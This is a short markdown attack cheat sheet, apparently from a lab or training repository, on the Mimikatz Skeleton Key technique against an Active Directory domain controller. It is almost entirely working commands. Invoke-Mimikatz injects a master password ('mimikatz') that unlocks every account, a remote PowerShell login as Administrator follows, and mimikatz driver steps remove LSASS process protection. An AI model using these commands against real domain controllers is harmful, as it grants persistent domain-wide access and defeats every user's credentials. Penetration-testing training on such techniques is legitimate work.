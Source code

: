 # Skeleton Key 

## Use the below command to inject a skeleton-Key
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
> Skeleton Key password is : **mimikatz**


## Now we can access any machine with valid username and password as mimikatz
```powershell
Enter-PSSession -Computername dcorp-dc.dollarcorp.moneycorp.local -credential dcorp\Administrator
```

## LSASS running as a protected process
In case Lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC
```mimikatz
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```